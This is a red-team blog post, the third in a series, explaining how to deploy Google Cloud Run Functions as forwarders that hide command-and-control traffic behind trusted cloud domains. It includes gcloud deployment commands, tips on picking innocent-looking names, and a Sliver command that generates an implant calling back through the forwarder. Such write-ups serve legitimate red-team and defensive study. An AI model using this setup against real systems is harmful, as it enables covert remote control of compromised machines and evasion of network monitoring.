 ```yaml
---
layout: post
title:  "GCP Service Command and Control HTTP traffic forwarding part 3"
date:   2025-04-23 17:10:00 +1100
author: Stephen Bradshaw
tags:
- GCP
- Cloud Run Functions
- Cloud Run
- Serverless
- C2
- domain fronting
- forwarding
- container
- sliver
---
```


<p align="center">
  <img width="500" height="500" src="/assets/img/google_cloud_hack_3.png" alt="Google Cloud Hacker">
</p>

This is the third and likely final part in my series on abusing GCP services for C2 implant connectivity.

The previously released [part 1](/2023/08/30/aws-service-C2-forwarding.html) and [part 2](/2025/04/09/gcp-service-C2-forwarding-part-2.html) in the series are also available if you want to read them, with part 1 in particular worth having a look at to explain the rationale behind this technique and the basic environment requirements to make a working C2 system.

This time around, Im going to be talking about [Cloud Run Functions](https://cloud.google.com/functions).

# Cloud Run Functions

In a lot of ways, using Cloud Run Functions to forward C2 implant traffic operates similarly to the [Cloud Run](https://cloud.google.com/run) approach discussed in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-cloud-run), with one interesting difference - the ability to access your app via an auto generated URL in the `cloudfunctions.net` domain.

The code for this approach is available [here](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder). You will notice that this code is very similar to those used in the approaches discussed in previous parts of this series, with the main difference being that this code uses the [GCP functions framework](https://github.com/GoogleCloudPlatform/functions-framework-python) instad of Flask.

The difference between "Cloud Run" and "Cloud Run Functions" for C2 traffic forwarding results from the fact that we can actually deploy Cloud Run Functions via the gcloud CLI using two different subcommands `gcloud functions` and `gcloud run`. 

The `gcloud run` subcommand is the same one that we used to deploy the "Cloud Run" example app in part 1 of this series. From what I can tell, this is the newer combined deployment approach that can be used for both "Run" and "Run Function" apps. This method gives us access to new capabilities, such as the ability to route private VPC traffic via [Direct VPC egress](https://cloud.google.com/run/docs/configuring/vpc-direct-vpc). Deployed apps of either type are accessible at two different auto generated URLs under the `run.app` domain - a longer form that is provided in the CLI output as well as a shorter form viewable alongside the longer URL in the web console under the Network tab for the given app.

The `gcloud functions` subcommand appears to be older functionality, works just for "Run Function" apps (e.g. those using the GCP Functions Framework), and does not allow Direct VPC egress, instead requiring a [Serverless VPC connector](https://cloud.google.com/vpc/docs/serverless-vpc-access) to route private VPC traffic. It does however provide us access to our app via three different auto generated URLs instead of only two. Two of these URLs are the same as for the previous method and we then get an additional auto generated URL in the `cloudfunctions.net` domain.

We will look at examples of deploying a Run Function using each of the available approaches below.

First however, make sure you have completed all the supporting steps outlined in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#gcp-c2-poc-environment), and enabled the APIs in your project for Cloud Run if you have not done so before (see commands below)

```
gcloud services enable run.googleapis.com
gcloud services enable cloudbuild.googleapis.com
```

Now lets look at the two deployment approaches, starting with the unique approach that gives us access to an additional reachable endpoint.

# Cloud Run Function Deployment using "gcloud functions"

In this deployment approach, we need to use a [Serverless VPC connector](https://cloud.google.com/vpc/docs/serverless-vpc-access) to allow internal traffic from our function to our C2 instance, similar to what we required when we used [Google App Engine in part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-app-engine). Set this up in the same VPC and region as your C2 instance using the GCP web interface [here](https://console.cloud.google.com/networking/connectors/list).  I used the `10.8.0.0/28` unusued network range and called mine `testconnector`. 

Then, if it does not already exist, setup a [firewall rule](https://console.cloud.google.com/net-security/firewall-manager/firewall-policies/list) for the VPC which allows traffic from the VPC connectors private IP address range to port 80 on our C2 host. I handled this by creating a rule to allow all internal traffic from the range 10.0.0.0/8 (which included the IP range assigned to my testconnector VPC connector) to TCP port 80.


With that complete, we can then deploy our app using the gcloud CLI. 

To run the deployment, we need information on the following:
* A name for our function - this appears in the generated URLs so dont make it sounds too sus - Im using the value `imlegit`
* the internal IP address of our C2 host-  `10.128.0.2` in my case,
* the region we want to deploy in `us-central1`,
* our GCP project id `legitapp-24002`, and
* the full address of our VPC connector, comprised of the GCP project ID, region and connector name, in my case `projects/legitapp-24002/locations/us-central1/connectors/testconnector`


These get slotted into a deployment command like the following. Run this using a cloned copy of the previously mentioned [source code](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder) as the present working directory.

```
gcloud functions deploy imlegit --source . --entry-point main --region us-central1 --runtime python312 --set-env-vars='DESTINATION=10.128.0.2' --trigger-http --allow-unauthenticated --vpc-connector 'projects/legitapp-24002/locations/us-central1/connectors/testconnector'
```


This will deploy when complete will output a URL similar in form to `https://us-central1-legitapp-24002.cloudfunctions.net/imlegit`, where your app will be available.

The architecture looks similar to the following.


<p align="center">
  <img src="/assets/img/c2_architecture_basic_crf.png" alt="C2 with Cloud Run Function Fronting">
</p>


You will note that in this case, the autogenerated URL for the app has pre-populated the chosen function name into the path component (`/imlegit`). This means that whatever C2 we use has to be able to generate its implants with this value pre-populated in the callback URL. In my POC, using [Sliver](https://github.com/BishopFox/sliver), I was able to generate implant binaries for Linux to connect to this endpoint using a command like the following:


```
generate beacon -a amd64 -o linux --http https://us-central1-legitapp-24002.cloudfunctions.net/imlegit/ -s /tmp/crf_beacon
```


As mentioned, there will also be two other auto generated URLs created for our app, which can be obtained from under the Network tab for the app in the [Cloud Run web interface](https://console.cloud.google.com/run).


My additional URLs looked like the following:
* `https://imlegit-983481234768.us-central1.run.app/`
* `https://imlegit-4egjweq6kq-uc.a.run.app/`



# Cloud Run Function Deployment using "gcloud run"

Now lets look at the alternate deployment approach, which results in something functionally similar to the Cloud Run example we look at in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-cloud-run).

This approach can use [Direct VPC egress](https://cloud.google.com/run/docs/configuring/vpc-direct-vpc) to allow private traffic flow, so we can do without the Serverless VPC. We will specify the subnet identifier that the C2 instance is running in when we do the deployment so the container that Cloud Run creates runs there for connectivity purposes.


The parameters we will use are:
* A different name for the app - Im going with `toteslegit` like I did in the original Cloud Run example,
* the internal IP address of our C2 host `10.128.0.2`,
* the region we want to deploy in `us-central1`,
* our GCP project id `legitapp-24002`, and
* a subnet to connect the apps container to for network access `projects/legitapp-24002/regions/us-central1/subnetworks/default`


The command looks like the following, run with the cloned [source code](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder) as the present working directory.


```
gcloud run deploy toteslegit --source . --function main --set-env-vars='DESTINATION=10.128.0.2' --region=us-central1 --subnet='projects/legitapp-24002/regions/us-central1/subnetworks/default' --allow-unauthenticated
```

The deployment will spit out a URL similar to `https://toteslegit-983481234768.us-central1.run.app` where our app will then be accessible. 


The architecture looks similar to the following.


<p align="center">
  <img src="/assets/img/c2_architecture_basic_crf2.png" alt="C2 with Cloud Run Function Fronting Alt Method">
</p>


The Network tab for the app in the [Cloud Run web interface](https://console.cloud.google.com/run) will also give us information on the additional auto generated app URL, which in my case was `https://toteslegit-4egjweq6kq-uc.a.run.app/`.


# Conclusion

I believe at this point I have largely exhausted the suitable looking possibilities for abusing GCP services for C2 fronting, so this will likely be the last part in this series. However, if you are aware of any other services that I have missed that could be misused in this way, please let me know and I'll do another follow up.
